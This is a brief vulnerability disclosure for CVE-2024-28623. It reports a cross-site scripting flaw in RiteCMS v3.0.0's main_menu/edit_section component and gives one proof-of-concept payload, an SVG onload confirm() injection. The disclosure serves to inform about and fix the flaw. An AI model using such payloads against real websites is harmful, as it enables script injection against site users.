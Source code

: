 CVE-2024-28623

RiteCMS v3.0.0 was discovered to contain a cross-site scripting (XSS)
vulnerability via the component main_menu/edit_section.

PAYLOADS:

'"><svg/onload=confirm(/xsss/)>

https://github.com/GURJOTEXPERT/ritecms/assets/91006342/09bd4edc-134b-44ea-ab78-e792fa3054cb

